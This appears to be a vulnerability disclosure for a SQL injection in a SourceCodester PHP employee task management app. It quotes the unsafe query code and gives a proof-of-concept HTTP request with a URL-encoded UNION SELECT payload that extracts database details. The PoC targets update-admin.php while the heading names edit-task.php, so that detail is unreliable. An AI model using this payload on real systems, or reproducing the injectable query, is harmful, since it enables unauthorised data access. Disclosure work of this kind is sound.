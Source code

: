 # SOURCECODESTER / Employee Task Management System - SQL Injection edit-task.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /edit-task.php

## Code
```php
$sql = "SELECT * FROM task_info WHERE task_id='$task_id' ";
$info = $obj_admin->manage_all_info($sql);
$row = $info->fetch(PDO::FETCH_ASSOC);
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /update-admin.php?admin_id='%20union%20select%201%2cconcat('Database%20Name%3a%20'%2cdatabase())%2cconcat('Database%20Version%3a%20'%2cversion())%2cconcat('Database%20User%3a%20'%2cuser())%2c5%2c6%2c7%20--%20- HTTP/1.1
Host: 127.0.0.1
Content-Length: 0
Research-By: NoChizPlz
```

## Screenshot
![img.png](SQL%20Injection%20-%20edit-task%2Fimg.png)


